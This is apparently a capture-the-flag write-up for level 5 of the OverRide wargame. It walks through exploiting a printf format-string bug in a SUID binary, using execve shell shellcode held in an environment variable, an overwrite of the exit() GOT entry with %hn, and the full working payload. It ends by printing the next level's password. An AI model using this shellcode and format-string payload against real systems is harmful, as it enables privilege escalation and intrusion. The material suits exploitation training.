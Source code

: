 # Level 5

## Vulnerability

Shellcode in environment variable + printf() format string attack

## Context

We find a binary with owner ```level06``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

The program takes input from the stdin, and prints the output in lowercase. 
```
level05@OverRide:~$ ./level05
HELLO
hello
```
## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. <br />
However we do see a call to ```printf()```, which is vulnerable to string format exploits. <br />
We also see a call to ```exit()```.

### Exploit

Unfortunately, we see the stack is non-executable. We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will:
- use a shellcode stored in an environmental variable 
- to run a string format attack to overwrite ```exit()``` 

### Store shellcode in Env variable

We will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious shellcode / environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. <br />
Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide... so let's make the address of our shellcode ```0xffffd822 + 16 bytes -> 0xffffd832```.

Unfortunately, ```0xffffd832``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957106 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). <br />
Note: reverse order for little endian! 
```
0xffffd832
0xd832 -> 55346
0xffff -> 65535
```

### Find address of exit()

Next, find the address of ```exit()```. The GOT address of ```exit()``` is ```0x080497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Finally, let's check our buffer position for the ```printf()``` string format exploit. <br />
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

### Build exploit

Looks good... Let's sum it all up! <br />
Our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```
- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55346 - 8 bytes (of characters already written)``` -> ```55338```
      - ```65535 - 55346 bytes (of characters already written)``` -> ```10189```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05
```

Let's try it. 
```
level05@OverRide:~$ (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05

[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
